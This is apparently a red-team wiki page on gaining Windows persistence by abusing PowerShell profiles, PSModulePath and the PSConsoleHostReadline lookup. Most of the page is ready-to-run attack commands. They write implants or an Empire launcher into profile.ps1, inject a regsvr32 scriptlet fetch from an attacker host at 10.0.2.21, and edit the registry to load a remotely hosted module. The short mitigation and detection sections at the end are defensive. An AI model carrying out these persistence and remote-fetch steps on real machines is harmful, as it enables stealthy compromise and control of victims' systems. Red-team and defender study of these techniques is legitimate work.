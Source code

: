 # Powershell Profiles & Modules

## <mark style="color:red;">Powershell Profiles</mark>

#### PowerShell profile is a PowerShell script which enables system administrators and users to customize their environment and to execute specific commands when a PowerShell session initiates. It is similar to logon scripts that are used heavily by Administrators to map network drives and printers for users or gather information about the system.

&#x20;Modification of the contents of a PowerShell profile script allows an adversary or a red team to use this as a persistence mechanism if the user performs work on PowerShell on a regular basis. This technique can be executed under the context of the current user.

{% hint style="warning" %}
This technique works only if the user or another program is using powershell to do something.

If the user is not using profiles, the technique will stick out immediately due to the "loading personal and system profiles..." message at the top.
{% endhint %}

There are four places you can abuse the powershell profile, depending on the privileges you have:

```
$PROFILE | select *
```

![](<../../../.gitbook/assets/image (302).png>)

add the code to a `$profile` variable (that expands to the current user's profile file) that will get executed the next time the compromised user launches a powershell console:

```
dir %HOMEPATH%"\Documents\windowspowershell
echo c:\rto\pers\implant\implant.exe > %HOMEPATH%"\Documents\windowspowershell\profile.ps1
```

Once the compromised user launches powershell, our code gets executed.

### <mark style="color:orange;">Invoke-Item</mark>

Similar to starting a process the “Invoke-Item” cmdlet can be used to perform the default action of an item i.e. run a file, open an application etc. The launcher.bat is a payload generated by Empire with capability to self-delete itself upon execution as stealthier option since it doesn’t create a new process.

```
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
Add-Content $profile "Invoke-Item C:\tmp\launcher.bat"
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShe
ll_profile.ps1" -Append
```

![](<../../../.gitbook/assets/image (310).png>)

When PowerShell initiates again on the system the file will be executed and the agent will communicate back with the command and control. The execution will not create a new process on the system as the example above and it will use the existing PowerShell process.

### <mark style="color:orange;">Invoke-Command</mark>

The usage of the cmdlet “Invoke-Command” allows the execution of commands. The regsvr32 method can be used as a stealthy option since can evade application whitelisting solutions that are not properly configured and the scriptlet can be executed from a remote location.

```
echo $profile
Test-Path $profile
New-Item -Path $profile -Type File –Force
$string = 'Invoke-Command -ScriptBlock { regsvr32 /s /n /u /i:http://10.0.2.21:8080/jWcEbr.sct s
crobj.dll }'
$string | Out-File -FilePath "C:\Users\pentestlab\Documents\WindowsPowerShell\Microsoft.PowerShe
ll_profile.ps1" -Append
```

![](<../../../.gitbook/assets/image (130).png>)

### <mark style="color:orange;">Other Techniques</mark>

The Metasploit Framework contains a module (web\_delivery) which can generate and serve malicious scriptlet files. However other Command and Control (C2) frameworks like PoshC2 support this functionality and can provide extended capability compare to Metasploit.

{% embed url="https://enigma0x3.net/2014/06/16/abusing-powershell-profiles/" %}

## <mark style="color:red;">Powershell Modules</mark>

The PowerShell engine is automatically aware of module components since version 3. PowerShell will load .psm1 files from the PSModulePath when invoked. This is a great place to establish a persistent PowerShell payload. We can either drop it in the default path or edit the registry setting to include a special path. The example here uses a cloud-hosted SkyDrive to contain the payload. We only need to update the module file, and the victim will include the updated module the next time a PowerShell is invoked.

```
$origpaths =(Get-ItemProperty -Path
"Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Session
Manager\Environment" -Name PSModulePath ).PSModulePath
$newPath=$origpaths+";C:\Users\J\OneDrive\PowerShell\"
Set-ItemProperty -Path
"Registry::HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\S
ession Manager\Environment"-Name PSModulePath -Value $newPath
```

## <mark style="color:red;">PSConsoleHostReadline</mark>

In PowerShell 3.0, the system PATH is used to enumerate executables, specifically looking for a nonexistent file: PSConsoleHostReadline. Because the file doesn't exist, PowerShell attempts to load PSConsoleHostReadline with a long list of possible executable extensions: .ps1, .psm1, .psd1, .com, .exe, .bat, .cmd, .vbs, and so on. As an attacker, all you need is to drop one PowerShell script somewhere in the PATH of a PowerShell v3 system and wait for any PowerShell interactive session like this:

```
$PSHOME\PSConsoleHostReadline.bat
```

{% hint style="info" %}
This particular missing file "feature" was removed in PowerShell v4, but because PowerShell v3 shipped with Windows 8 and Server 2012, the technique is still valid. The attacker needs to write to the correct filename and then wait for the victim to run PowerShell interactively to run the dropped payload. Just note that whatever payload you drop will run with each line used in an interactive session on the victim.
{% endhint %}

Because the function isn't defined by default, PowerShell attempts to use Windows standard PATHEXT (such as .com, .exe, .bat, .cmd, .vbs, .vbe, .js, .jse, .wsf, .wsh, .msc) along the environment PATH. Simply drop in a filename with a preferred extension in an earlier PATH directory. Common user-writable directories include C:\Python27\ and C:\Windows\System32\WindowsPowerShell\v1.0\ .

## <mark style="color:red;">Mitigation</mark>

* Enforce execution of only signed PowerShell scripts. Sign profiles to avoid them from being modified.
* Making PowerShell profiles immutable and only changeable by certain administrators will limit the ability for adversaries to easily create user level persistence.
* Avoid PowerShell profiles if not needed. Use the -No Profile flag with when executing PowerShell scripts remotely to prevent local profiles and scripts from being executed.

## <mark style="color:red;">Detection</mark>

* Locations where `profile.ps1` can be stored should be monitored for new profiles. [\[4\]](http://www.malwarearchaeology.com/s/Windows-PowerShell-Logging-Cheat-Sheet-ver-June-2016-v2.pdf) Example profile locations include: _ `$PsHome\Profile.ps1`_ `$PsHome\Microsoft.{HostProgram}_profile.ps1` _ `$Home\My Documents\PowerShell\Profile.ps1`_ `$Home\My Documents\PowerShell\Microsoft.{HostProgram}_profile.ps1`
* Locations where `profile.ps1` can be stored should be monitored for modifications. [\[4\]](http://www.malwarearchaeology.com/s/Windows-PowerShell-Logging-Cheat-Sheet-ver-June-2016-v2.pdf) Example profile locations include: _ `$PsHome\Profile.ps1`_ `$PsHome\Microsoft.{HostProgram}_profile.ps1` _ `$Home\My Documents\PowerShell\Profile.ps1`_ `$Home\My Documents\PowerShell\Microsoft.{HostProgram}_profile.ps1`

